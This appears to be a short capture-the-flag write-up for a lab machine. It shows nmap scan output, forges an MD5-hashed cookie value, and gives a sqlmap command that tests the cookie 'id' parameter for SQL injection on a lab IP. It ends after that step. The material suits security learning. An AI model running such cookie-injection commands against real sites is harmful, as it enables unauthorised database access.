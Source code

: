 <!-- 5/100 -->

# NMAP

```bash
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDrxDlZxvJUZk2qXaeBdjHxfM3MSGpZ8H6zPqgarnP3K806zE1Y/CryyT4wgIZYomtV8wUWHlFkuqbWjcKcM1MWcPjzGWfPZ2wHTNgUkHvBWZ+fxoX8vJoC6wfpifa7bSMaOItFWSLnMGOXigHbF6dPNyP+/kXAJE+tg9TurrTKaPiL6u+02ITeVUuLWsjwlLDJAnu1zDhPONR2b7WTcU/zQxHUYZiHpHn5eBtXpCZPZyfOZ+828ibobM/CAHIBZqJsYksAe5RbtDw7Vdw/8OtYuo4Koz8C2kBoWCHvsmyDfwZ57E2Ycss4JG5j7fMt7sI+lh/NHE+/7zrXdH/4njCD
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMlni4gM6dVkvfGeMy6eg/18HsCYvvFhbpycXiGYM3fitNhTXW4WpMpr8W/0y2FszEB6TGD93ib/lCTsBOQG5Uw=
|   256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICQIHukp5WpajvhF4juRWmL2+YtbN9HbhgLScgqYNien

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Canis Queue
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

![image](https://user-images.githubusercontent.com/68326057/120881117-83da2f00-c5ec-11eb-83b8-3a36accb5db1.png)


![image](https://user-images.githubusercontent.com/68326057/120881153-dae00400-c5ec-11eb-876c-5b0e8e40790c.png)

```bash
 echo "69" | md5sum                   
105be3ebd0677ec739afd851a6d87fd5 
```

I put this value in cookie

![image](https://user-images.githubusercontent.com/68326057/120881166-f64b0f00-c5ec-11eb-8ad7-cce5712d0796.png)

![image](https://user-images.githubusercontent.com/68326057/120881281-8b4e0800-c5ed-11eb-8ce2-bfbe40fce0a9.png)

--> https://superuser.com/questions/747551/how-do-i-check-for-sql-injection-in-cookie

```bash
sqlmap --cookie="id=705e3461bba168a8e922ecff55333463" -u "http://10.10.88.196/index.php" -p "id" --level 3 --dbms=MYSQL
```

![image](https://user-images.githubusercontent.com/68326057/120881781-34e2c880-c5f1-11eb-993b-2821c69ea476.png)


